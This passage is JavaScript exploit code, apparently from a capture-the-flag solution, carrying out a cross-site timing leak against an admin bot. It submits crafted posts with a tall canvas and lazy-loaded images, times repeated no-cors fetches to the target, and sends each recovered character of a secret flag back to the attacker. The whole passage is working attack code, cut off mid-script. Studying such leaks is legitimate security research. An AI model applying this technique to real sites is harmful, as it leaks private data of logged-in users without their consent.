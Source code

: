 ```html
          if (found) {
            send("found: " + flag + c)
            flag += c
            break
          }
        }
      }, 0)

      async function testChar(str) {
        return new Promise((resolve) => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value =
            str +
            '<br><canvas height="3350px"></canvas><br>' +
            Array.from({ length: 20 })
              .map((_, i) => `<img loading=lazy src=/?${i}>`)
              .join("")
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
        })
      }

      async function run(str, resolve) {
        // if the request is not enough, we can send more by opening more window
        for (let i = 1; i <= 5; i++) {
          window.open(TARGET)
        }

        let t = 0
        const round = 30
        setTimeout(async () => {
          for (let i = 0; i < round; i++) {
            let s = performance.now()
            await fetch(TARGET + "/?test", {
              mode: "no-cors",
            }).catch((err) => 1)
            let end = performance.now()
            t += end - s
            console.log(end - s)
          }
          const avg = t / round
          send(str + "," + t + "," + "avg:" + avg)

          /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
          const isFound = t >= 1000
          if (isFound) {
            inp2.value = "0"
          } else {
            inp2.value = "1"
          }

          // remember to delete the post to not break our leak oracle
```